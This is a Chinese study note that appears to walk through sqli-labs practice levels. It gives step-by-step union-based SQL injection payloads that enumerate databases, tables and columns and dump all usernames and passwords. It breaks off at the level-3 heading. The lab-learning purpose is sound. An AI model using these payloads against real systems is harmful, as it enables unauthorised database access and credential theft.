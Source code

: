   * 查看其字段数,下图说明有3列

    ![7DD25157-DEE9-4230-B665-4A7B66F5B22D](/Users/lorelei/Library/Containers/com.tencent.qq/Data/Library/Application Support/QQ/Users/1339520365/QQ/Temp.db/7DD25157-DEE9-4230-B665-4A7B66F5B22D.png)

    ![3004BD4A-3709-4E6F-85DE-58E3EBF79F00](/Users/lorelei/Library/Containers/com.tencent.qq/Data/Library/Application Support/QQ/Users/1339520365/QQ/Temp.db/3004BD4A-3709-4E6F-85DE-58E3EBF79F00.png)

    可知其字段数为3

  * 使用联合查询获取数据库基本信息

    ![image-20210124103027314](/Users/lorelei/Library/Application Support/typora-user-images/image-20210124103027314.png)

    id=-1'(或id=1'and 1=2)使其数据库查询语句失效，--+(或%23)注释后端的查询语句。

  * 爆出数据库所有库名——group_concat()一次性获得数据库信息

    Payload: id=-1'union select 1,2,group_concat(SCHEMA_NAME) from information_schema.SCHEMATA --+

    Note: schema可理解为database的替换

    ![A7C8D3A9-CD07-45A5-878A-61D293A8534C](/Users/lorelei/Library/Containers/com.tencent.qq/Data/Library/Application Support/QQ/Users/1339520365/QQ/Temp.db/A7C8D3A9-CD07-45A5-878A-61D293A8534C.png)

    其中：information_schema是mysql-5.0 以上版本自带的信息数据库。

    ​			此外，performance_schema用于性能分析，information_schema用于存储数据库元数据

  * 具体爆出数据库中表名

    Payload:id=-1'union select 1,2,(select group_concat(TABLE_NAME)from information_schema.tables where table_schema = 'security') --+

    ![C861CEBF-8FFE-41DB-A80E-4451E768D72A](/Users/lorelei/Library/Containers/com.tencent.qq/Data/Library/Application Support/QQ/Users/1339520365/QQ/Temp.db/C861CEBF-8FFE-41DB-A80E-4451E768D72A.png)

    其余表中数据以此类推

  * 爆出表中具体信息

    Payload:id=-1'union select 1,2,(select group_concat(COLUMN_NAME) from information_schema.columns where table_name='users') --+![986C54AE-BA43-4253-9482-F82E3A1C46B8](/Users/lorelei/Library/Containers/com.tencent.qq/Data/Library/Application Support/QQ/Users/1339520365/QQ/Temp.db/986C54AE-BA43-4253-9482-F82E3A1C46B8.png)

  * 爆出用户名和密码
  
    Payload: id=-1' union select 1,(select group_concat(password) from security.users) ,(select group_concat(username) from security.users) --+![D028DBBE-B760-476E-98CF-D50B1A2FA431](/Users/lorelei/Library/Containers/com.tencent.qq/Data/Library/Application Support/QQ/Users/1339520365/QQ/Temp.db/D028DBBE-B760-476E-98CF-D50B1A2FA431.png)

## 2

基本流程同1。

不过1是字符型，2是整型。

## 3(带括号的sql)
